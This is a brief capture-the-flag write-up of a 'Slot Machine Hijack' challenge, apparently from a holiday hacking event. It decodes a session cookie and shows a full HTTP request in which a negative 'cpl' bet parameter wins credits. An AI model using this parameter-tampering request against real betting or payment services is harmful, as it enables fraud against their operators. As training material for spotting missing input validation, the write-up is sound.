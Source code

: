 (ch4)=
Slot Machine Hijack
========================

goto [https://slots.jackfrosttower.com](https://slots.jackfrosttower.com)

Curiosly, there is a Cookie really intreaguing here, like:

```
XSRF-TOKEN: 
eyJpdiI6Ill3emgrYmUrZWk5K040Mloxd0QvNHc9PSIsInZhbHVlIjoicVN3YlUyaC9CY0JDSjlpWGwzVjRYbjJpWUFoTnlHanJKcmVPWTdXN0hmazBFRmUyQ3hPanYwNkxnSUhWdTNzUkRrVDgxeHZnN2ZtdjVyN0dOaVAzeDVuV00wcXErbXZMYy80WWFEd0NCVFBSblcya3dwb1cvcDZpSkpmRk9rS2YiLCJtYWMiOiI5MDYyZjlmM2FhMTY4MzkxODU0ZjRiZWExYTdhNjA3YmI0ZjQ2Yzk0ZGMwYThkZjk4ODhjNWY5MmYxNjQ0YjE2IiwidGFnIjoiIn0%3D
```
that decoded from base64:
```
{"iv":"Ywzh+be+ei9+N42Z1wD/4w==","value":"qSwbU2h/BcBCJ9iXl3V4Xn2iYAhNyGjrJreOY7W7Hfk0EFe2CxOjv06LgIHVu3sRDkT81xvg7fmv5r7GNiP3x5nWM0qq+mvLc/4YaDwCBTPRnW2kwpoW/p6iJJfFOkKf","mac":"9062f9f3aa168391854f4bea1a7a607bb4f46c94dc0a8df9888c5f92f1644b16","tag":"In0%3D
```
we have a lot of ingredients here, but we found a really easy way to win this challenge just by playing with it. 
<br/>
<br/>
Do you know that you can win a lot of credits just by using a negative value? 

```
POST /api/v1/02b05459-0d09-4881-8811-9a2a7e28fd45/spin HTTP/2
Host: slots.jackfrosttower.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:96.0) Gecko/20100101 Firefox/96.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://slots.jackfrosttower.com/uploads/games/frostyslots-206983/index.html
Content-Type: application/x-www-form-urlencoded
X-Ncash-Token: 8045060e-0cc9-4c7e-bb2e-e8a7c6171a2b
Origin: https://slots.jackfrosttower.com
Content-Length: 31
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

betamount=1&numline=20&cpl=-0.1
```
Done. 


(note: let's go on with the others challenges, the way is still so long and we want to send the full report at the deadline preview !!!) 
